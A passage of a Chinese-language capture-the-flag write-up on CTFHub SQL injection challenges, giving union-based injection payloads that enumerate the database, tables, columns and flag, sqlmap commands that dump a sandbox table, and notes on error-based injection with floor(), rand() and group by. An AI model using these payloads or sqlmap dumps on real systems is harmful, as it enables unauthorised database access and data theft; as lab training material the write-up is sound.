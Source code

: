 ```
?id=1' and 1=2 union select 1,database()--+
```

4. 爆表名
```
?id=1' and 1=2 union select 1,group_concat(table_name)from information_schema.tables where table_schema='sqli'--+
```

5. 爆列名
```
?id=1' and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'--+
```

6. 爆字段内容(flag)
```
?id=1' and 1=2 union select 1,group_concat(flag) from sqli.flag--+
```

**解题思路**

- 解法一:sqlmap工具跑

```bash
# 爆出所有数据库的表名
sqlmap --url=http://challenge-95da955a4c621777.sandbox.ctfhub.com:10080/?id=1%27 --tables
```

```bash
# 爆出flag表的字段名
sqlmap --url=http://challenge-95da955a4c621777.sandbox.ctfhub.com:10080/?id=1%27 -T flag --columns
```

```bash
# 爆出flag表的flag字段内容
sqlmap --url=http://challenge-95da955a4c621777.sandbox.ctfhub.com:10080/?id=1%27 -T flag -C flag --dump
```


- 解法二:手工注入

跟整数型注入一样，但需要闭合单引号。

### 报错注入

**知识点**

报错注入的本质上是让格式语法发生错误回显。

- floor()函数作用: 返回小于等于该值的最大整数,也可以理解为向下取整，只保留整数部分。

- rand()函数作用: 可以用来生成0或1，但是rand(0)和rand()还是有本质区别的，rand(0)相当于给rand()函数传递了一个参数，然后rand()函数会根据0这个参数进行随机数成成。rand()生成的数字是完全随机的，而rand(0)是有规律的生成。

- group by : 进行分组查询的时候，数据库会生成一张虚拟表，在虚拟表中，group by后面的字段作为主键，所以这张表中主键是name，这样我们就基本弄清报错的原因了，其原因主要是因为虚拟表的主键重复。


**解题思路**
